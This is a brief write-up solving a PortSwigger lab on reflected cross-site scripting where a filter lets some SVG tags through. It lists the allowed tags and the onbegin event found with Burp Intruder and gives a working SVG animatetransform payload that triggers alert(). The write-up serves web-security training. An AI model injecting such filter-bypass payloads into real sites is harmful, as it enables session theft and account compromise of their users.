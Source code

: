 # [Lab: Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)

## Lab

This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the `alert()` function.

## Analysis

use burp's intruder to check which tags and events are allowed:

- tags:
  - animatetransform
  - image
  - svg
  - title
- events:
  - onbegin

## Solutions

use [cheatsheet] to find payload: `<svg><animatetransform onbegin=alert(1) attributeName=transform>`

lab solved
